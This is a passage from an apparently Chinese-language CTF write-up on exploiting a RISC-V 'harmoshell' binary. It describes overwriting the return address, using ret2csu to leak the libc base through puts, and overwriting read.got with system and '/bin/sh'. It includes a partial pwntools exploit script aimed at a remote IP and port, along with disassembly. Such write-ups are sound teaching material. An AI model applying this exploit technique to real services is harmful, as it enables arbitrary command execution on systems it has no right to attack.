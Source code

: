 这里我们看到`ra`寄存器的值首先从`rsp+0x138`的位置读取，因此只要我们覆写到这个位置就能够控制返回地址执行`gadget`。那么到现在就还有一个问题就是`sp`的值是什么。

从`read`函数的调用来看（`c.mv       a1,sp`），执行`read`函数的时候`sp`已经变成了`content_buf`的地址，也就是`sp`恰好就是我们输入内容开始的地方。而`ret`地址之前执行了`add sp,0x140`，也就是返回地址之后。这里地址的分布就很清楚了。

因此这里我们直接将返回地址覆写为`csu`，利用`ret2csu`执行`puts`泄漏出`libc`基址，之后调用`read`覆写`read.got`为`system.address + /bin/sh\x00`。之后再次调用`read`函数，参数为`read.got+0x8`。

```
# encoding=utf-8
from pwn import *

file_path = "./harmoshell"
context.arch = "amd64"
context.log_level = "debug"
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF(file_path)
debug = 0
if debug:
    # p = process(['./qemu-riscv64', '-L', "libs", '-g', '1234', file_path])
    p = process(['./qemu-riscv64', '-L', "libs",file_path])
    # gdb.attach(p)
    libc = ELF('libs/lib/libc-2.27.so')
    one_gadget = 0x0

else:
    p = remote('121.37.222.236', 9999)
    libc = ELF('libs/lib/libc-2.27.so')
    one_gadget = 0x0


def touch(file):
    p.sendlineafter("$ ", "touch " + file)


def echo(file, content):
    p.sendlineafter("$ ", "echo &gt;&gt; " + file)
    p.send(content)


for i in range(0x30-1):
    touch("flag"+str(i))
raw_input()

# 0x00010778   # 2: lw a0, 28(sp)

# 0001182c csu


'''
        0001181c 56 86           c.mv       a2,s5
        0001181e d2 85           c.mv       a1,s4
        00011820 4e 85           c.mv       a0,s3
        00011822 85 04           c.addi     s1,0x1
        00011824 82 97           c.jalr     a5=&gt;_INIT_0                                      undefined _INIT_1()
                                                                                             undefined _INIT_0()
        00011826 21 04           c.addi     s0,0x8
        00011828 e3 19 99 fe     bne        s2,s1,LAB_0001181a
                             LAB_0001182c                                    XREF[1]:     0001180e(j)  
        0001182c e2 70           c.ldsp     ra,0x38(sp)
        0001182e 42 74           c.ldsp     s0,0x30(sp)
        00011830 a2 74           c.ldsp     s1,0x28(sp)
```